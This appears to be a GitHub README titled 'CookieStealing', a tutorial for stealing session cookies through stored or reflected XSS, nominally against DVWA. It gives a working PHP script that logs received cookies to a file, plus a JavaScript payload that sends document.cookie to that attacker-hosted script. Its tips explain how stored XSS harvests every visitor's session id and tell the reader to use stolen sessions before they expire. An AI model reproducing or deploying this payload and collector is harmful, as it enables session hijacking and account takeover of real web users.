 # CookieStealing
How you can steal cookies using XSS Stored/Reflected



**************************************************Cross Site Scripting**********************************************************



First select your target i m using DVWA for educational purpose

1-Select the XSS bug or find the (XSS)vulnuerable portion in a web application.

2-First of all create a php script and copy the paste as follows:

	<?php
	$cookie=$_GET['cookie'];
	$f=fopen("cookie.txt","w");
	fwrite($f,$cookie);
	fclose($f);
	echo("Done");
	?>

	(Host this file either in your local host or a purchased domain)

3-Open the input field of the web application which is vulnerable to XSS and write the following javascript code :
	
	<script>window.location="(Link of your php script)?cookie="+document.cookie;</script>
4- Press go 

5- Then you will see that a cookie.txt file (same directory where you php file exist).Open that file here u will see that there exist the session id 
	now this is the session id .Now its upto u how u can use it!!


***********************************Useful tips**************************************

1-All the screenshot are uploaded for better understanding

2-Use this process when the data in input field is stored in database so when the new user vosit that exploit page u will get his/her session id too.

3-Use the session id before the session expires.

